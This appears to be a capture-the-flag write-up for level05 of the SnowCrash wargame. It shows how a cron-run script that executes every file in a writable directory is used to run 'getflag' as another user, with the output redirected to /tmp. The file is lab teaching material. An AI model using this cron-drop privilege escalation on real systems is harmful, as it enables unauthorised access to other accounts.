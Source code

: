 # Level05

## Research 

```bash
level05@SnowCrash:~$ ls
```
returns nothing.

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
```bash
level05@SnowCrash:~$ cd /usr/sbin && ls -l openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 openarenaserver
```

The file has ACLs extended permissions. We can do `getfacl openarenaserver` to see them.</br>

```bash
level05@SnowCrash:/usr/sbin$ cat openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
For each file in `/opt/openarenaserver/` it will execute it then supress it.

`Invoking a Bash shell with the -x option causes each shell command to be printed before it is executed.` </br>
https://docs.actian.com/vector/4.2/index.html#page/SysAdmin/Bash_Shell_-x_Option.htm</br>
`ulimit: user limits - limit the use of system-wide resources. -t The maximum amount of cpu time in seconds.`</br>
https://ss64.com/bash/ulimit.html

```bash
level05@SnowCrash:/usr/sbin$ ./openarenaserver
bash: ./openarenaserver: Permission denied
```
We don't have rights to execute `openarenaserver`.
However the files I created to test stuff in `/opt/openarenaserver/` disappeared after a while, maybe `openarenaserver` is **launched by a cronjob** or something.

```bash
level05@SnowCrash:~$ echo 'getflag' > /opt/openarenaserver/getflag
```
And waiting a bit of time for the program to be launch didn't do anything. Maybe redirect the output somewhere can work.

## Solution

```bash
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /opt/openarenaserver/getflag
```
Wait a bit...
```bash
level05@SnowCrash:~$ cat /tmp/flag
```
Give us the flag
